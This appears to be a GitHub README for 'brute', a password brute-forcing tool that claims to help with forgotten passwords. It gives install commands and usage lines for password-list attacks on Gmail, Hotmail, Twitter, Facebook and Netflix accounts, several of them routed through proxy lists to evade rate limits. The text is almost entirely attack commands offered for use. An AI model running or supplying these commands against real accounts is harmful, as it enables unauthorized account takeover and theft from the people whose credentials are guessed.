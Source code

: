 # brute 
this tool using password guessing you forgot your passwords 

# Installation 


git clone https://github.com/Khalidhusain786/brute.git 

sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize 

python3 brute.py -h

# Gmail attack 


python3 brute.py -g Account@gmail.com -l File_list

python3 brute.py -g Account@gmail.com -p Password.txt 


# Hotmail attack 


python3 brute.py -t Account@hotmail.com -l File_list

python3 brute.py -t Account@hotmail.com -p Password_Single 


# Twitter attack 

python3 brute.py -T Account_Twitter -l File_list

python3 brute.py -T Account_Twitter -l File_list -X proxy-list.txt


# Facebook attack 

python3 brute.py -f Account_facebook -l File_list

python3 brute.py -f Account_facebook -l File_list -X proxy-list.txt 


# Netflix attack 

python3 Brute_Force.py -n Account_Netflix -l File_list 

python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt




 



 



 



 









